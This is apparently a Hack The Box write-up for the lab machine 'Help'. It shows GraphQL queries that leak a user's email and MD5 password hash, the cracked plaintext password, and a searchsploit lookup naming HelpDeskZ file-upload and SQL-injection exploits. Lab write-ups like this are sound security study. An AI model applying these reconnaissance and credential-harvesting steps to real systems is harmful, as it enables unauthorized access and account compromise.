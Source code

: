 #### 1.1. Target

- URL: `https://www.hackthebox.eu/home/machines/profile/170`
- IP: `10.10.10.121`


#### 1.2. Entry-points

A) HelpDeskZ interface
```
http://10.10.10.121/support/
```
Note: 
- allows login with credentials from GraphQL interface `helpme@helpme.com:godhelpmeplz`
- you can create a tickets as unauthenticated user (file upload)
- project: `github.com/evolutionscript/HelpDeskZ-1.0`


B) GraphQL interface
```
http://10.10.10.121:3000/graphql
```
Note: 
- project: `github.com/graphql/express-graphql`


#### 1.3. GraphQL

```
# http "http://10.10.10.121:3000/graphql?query={user{username}}" -b
{
    "data": {
        "user": {
            "username": "helpme@helpme.com"
        }
    }
}
# http "http://10.10.10.121:3000/graphql?query={user{password}}" -b
{
    "data": {
        "user": {
            "password": "5d3c93182bb20f07b994a7f617e99cff"
        }
    }
}
```
Note: `5d3c93182bb20f07b994a7f617e99cff MD5 : godhelpmeplz`


#### 1.4. HelpDeskZ searchsploit

```
# searchsploit HelpDeskZ --json | jq .RESULTS_EXPLOIT[] | grep 'Path\|Title'
  "Title": "HelpDeskZ 1.0.2 - Arbitrary File Upload",
  "Path": "/opt/exploitdb/exploits/php/webapps/40300.py"
  "Title": "HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download",
  "Path": "/opt/exploitdb/exploits/php/webapps/41200.py"
```
